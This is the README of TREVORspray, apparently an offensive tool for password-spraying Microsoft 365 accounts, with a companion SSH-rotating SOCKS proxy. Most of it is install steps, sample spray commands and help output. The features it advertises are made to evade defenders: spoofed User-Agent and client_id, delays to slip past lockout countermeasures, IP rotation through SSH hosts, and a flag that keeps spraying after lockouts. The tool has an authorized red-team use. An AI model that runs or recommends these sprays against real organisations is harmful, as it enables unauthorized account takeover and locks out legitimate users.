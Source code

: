 ![trevor](https://user-images.githubusercontent.com/20261699/92336575-27071380-f070-11ea-8dd4-5ba42c7d04b7.jpeg)

`#trevorforget`

# TREVORspray
TREVORspray is a featureful Microsoft 365 password sprayer based on [MSOLSpray](https://github.com/dafthack/MSOLSpray) 

By [@thetechr0mancer](https://twitter.com/thetechr0mancer)

![trevorspray](https://user-images.githubusercontent.com/20261699/92338226-e366d680-f07c-11ea-8664-7b320783dc98.png)

CREDIT WHERE CREDIT IS DUE - MANY THANKS TO:
- [@dafthack](https://twitter.com/dafthack) for writing [MSOLSpray](https://github.com/dafthack/MSOLSpray)
- [@Mrtn9](https://twitter.com/Mrtn9) for his Python port of [MSOLSpray](https://github.com/MartinIngesen/MSOLSpray)
- [@KnappySqwurl](https://twitter.com/KnappySqwurl) for being a splunk wizard and showing me how heckin loud I was being :)

## Features
- Tells you the status of each account: if it exists, is locked, has MFA enabled, etc.
- Automatic cancel/resume (remembers already-tried user/pass combos in `~/.trevorspray/tried_logins.txt`)
- Round-robin proxy through multiple IPs using only vanilla `--ssh`
- Automatic infinite reconnect/retry if a proxy goes down (or if you lose internet)
- Spoofs `User-Agent` and `client_id` to look like legitimate auth traffic
- Logs everything to `~/.trevorspray/trevorspray.log`
- Saves valid usernames to `~/.trevorspray/valid_usernames.txt`
- Optional `--delay` between request to bypass M$ lockout countermeasures

## Installation:
```
$ git clone https://github.com/blacklanternsecurity/trevorspray
$ cd trevorspray
$ pip install -r requirements.txt
```

## Example: Perform recon against a domain (retrieves tenant information, autodiscover info, mx records, etc.)
```
$ trevorspray.py --recon evilcorp.com
```

## Example: Spray with 5-second delay between requests
```
$ trevorspray.py -e bob@evilcorp.com -p Fall2020! --delay 5
```

## Example: Spray and round-robin between 3 IPs (the current IP is used as well.)
```
$ trevorspray.py -e emails.txt -p Fall2020! --ssh root@1.2.3.4 root@4.3.2.1
```

## TREVORspray - Help:
```
$ ./trevorspray.py --help
usage: trevorspray.py [-h] -e EMAILS [EMAILS ...] -p PASSWORDS [PASSWORDS ...] [-f] [-d DELAY] [-u URL] [-v] [-s SSH [SSH ...]] [-k KEY] [-b BASE_PORT] [-n]

Execute password sprays against O365, optionally proxying the traffic through SSH hosts

optional arguments:
  -h, --help            show this help message and exit
  -e EMAILS [EMAILS ...], --emails EMAILS [EMAILS ...]
                        Emails(s) and/or file(s) filled with emails
  -p PASSWORDS [PASSWORDS ...], --passwords PASSWORDS [PASSWORDS ...]
                        Password(s) that will be used to perform the password spray
  -f, --force           Forces the spray to continue and not stop when multiple account lockouts are detected
  -d DELAY, --delay DELAY
                        Sleep for this many seconds between requests
  -u URL, --url URL     The URL to spray against (default is https://login.microsoft.com)
  -v, --verbose         Show which proxy is being used for each request
  -s SSH [SSH ...], --ssh SSH [SSH ...]
                        Round-robin load-balance through these SSH hosts (user@host) NOTE: Current IP address is also used once per round
  -k KEY, --key KEY     Use this SSH key when connecting to proxy hosts
  -b BASE_PORT, --base-port BASE_PORT
                        Base listening port to use for SOCKS proxies
  -n, --no-current-ip   Don't spray from the current IP, only use SSH proxies
```

## Known Limitations:
- Untested on Windows


# TREVORproxy
TREVORproxy is a SOCKS proxy that round-robins requests through SSH hosts. Note that TREVORspray already has its own proxy feature (`--ssh`), so this is for use with curl, Burpsuite, etc.

## TREVORproxy - Help:
```
$ ./trevorproxy.py --help
usage: trevorproxy.py [-h] [-p PORT] [-l LISTEN_ADDRESS] [-v] [-k KEY] [--base-port BASE_PORT] ssh_hosts [ssh_hosts ...]

Spawns a SOCKS server which round-robins requests through the specified SSH hosts

positional arguments:
  ssh_hosts             Round-robin load-balance through these SSH hosts (user@host)

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  Port for SOCKS server to listen on (default: 1080)
  -l LISTEN_ADDRESS, --listen-address LISTEN_ADDRESS
                        Listen address for SOCKS server (default: 127.0.0.1)
  -v, --verbose         Print extra debugging info
  -k KEY, --key KEY     Use this SSH key when connecting to proxy hosts
  --base-port BASE_PORT
                        Base listening port to use for SOCKS proxies
```
